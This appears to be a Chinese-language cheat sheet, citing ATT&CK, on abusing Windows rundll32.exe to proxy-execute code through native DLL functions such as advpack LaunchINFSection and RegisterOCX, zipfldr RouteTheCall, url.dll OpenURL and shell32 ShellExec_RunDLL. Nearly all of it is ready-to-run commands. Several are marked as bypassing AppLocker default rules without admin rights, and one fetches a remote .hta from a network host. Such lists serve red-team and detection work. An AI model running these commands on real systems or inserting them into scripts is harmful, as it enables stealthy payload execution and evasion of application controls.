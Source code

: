 Rundll32的使用,参考自ATT&CK手册。

1）直接执行dll文件
```
rundll32.exe c:\\windows\\debug\\item.dat,ServiceMain aaaa
rundll32.exe "C:\Windows\twain_64.dll",EntryPoint
```
2）调用系统中原生存在的dll中的未记录dll函数

2.1）调用shell32.dll函数执行控制面板项文件（.cpl）
```
rundll32 shell32.dll,Control_RunDLL <文件名>
control.exe test.cpl
```
2.2）Advpack.dll - LaunchINFSection

advpack.dll用于帮助硬件和软件读取和验证·INF文件。正如老话所说，”大部分安全问题本质就是功能被误用“，advpack.dll也可以被攻击者利用进行代码/指令代理执行，
```
rundll32.exe advpack.dll,LaunchINFSection  c:\test.inf,DefaultInstall_SingleUser,1,
C:\\Windows\\System32\\rundll32 advpack.dll,LaunchINFSectionEx C:\\Windows\\system32\\ieuinit.inf,Install
Requires admin: No
Windows binary: Yes
Bypasses AppLocker Default rules: Yes
```
2.3）Advpack.dll - RegisterOCX
```
rundll32.exe advpack.dll,RegisterOCX calc.exe
Requires admin: No
Windows binary: Yes
Bypasses AppLocker Default rules: Yes
```
2.4）zipfldr.dll - RouteTheCall 
```
rundll32.exe zipfldr.dll,RouteTheCall calc.exe
```
 
2.5）url.dll - OpenURL 
```
rundll32  url.dll,OpenURL file://C:/Windows/system32/calc.exe 
rundll32.exe url.dll,OpenURL "C:\test\calc.hta"
rundll32.exe url.dll,OpenURL "C:\test\calc.url"
rundll32.exe  url.dll,OpenURL http://192.168.1.4/Micropoor_url_dll.hta
```
2.6）url.dll - FileProtocolHandler
```
rundll32.exe url.dll, FileProtocolHandler calc.exe
```
2.7）ieframe.dll - OpenURL 
```
rundll32.exe ieframe.dll,OpenURL "C:\test\calc.url"
```
2.8）shdocvw.dll - OpenURL
```
rundll32.exe shdocvw.dll,OpenURL "C:\test\calc.url"
```
2.9）ieadvpack.dll - LaunchINFSection
```
rundll32.exe ieadvpack.dll,LaunchINFSection test.inf,,1,
```
2.10）shell32.dll - ShellExec_RunDLL
```
rundll32.exe shell32.dll,ShellExec_RunDLL 
C:\Windows\System32\calc.exe
```
